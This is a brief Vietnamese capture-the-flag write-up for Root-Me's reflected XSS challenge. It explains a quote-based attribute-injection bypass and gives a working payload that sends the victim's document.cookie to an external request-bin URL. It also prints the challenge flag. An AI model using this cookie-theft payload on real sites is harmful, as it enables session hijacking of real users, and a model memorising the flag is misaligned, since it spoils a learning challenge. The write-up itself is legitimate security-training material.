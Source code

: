 # [XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)

## Solutions

XSS xảy ra khi thay request parameter `p` làm xuất hiện lỗi 404, server sẽ hiển thị lại tên trang không tồn tại.

Các ký tự như là `<, >, ...` đã bị lọc, tuy nhiên có ký tự `'` không bị.

Thử thay `?p=a'onmouseover='alert("a")` => OK

Sử dụng `request bin` để lắng nghe: `https://eo7srw2h4laxfe0.m.pipedream.net`

Thay `?p=a'onmouseover='document.location=%22https://eo7srw2h4laxfe0.m.pipedream.net?%22.concat(document.cookie)`, hiển thị trang báo lỗi, ấn vào nút report, chờ một lúc thấy có GET request ở `request bin`

Flag: `r3fL3ct3D_XsS_fTw`

## References
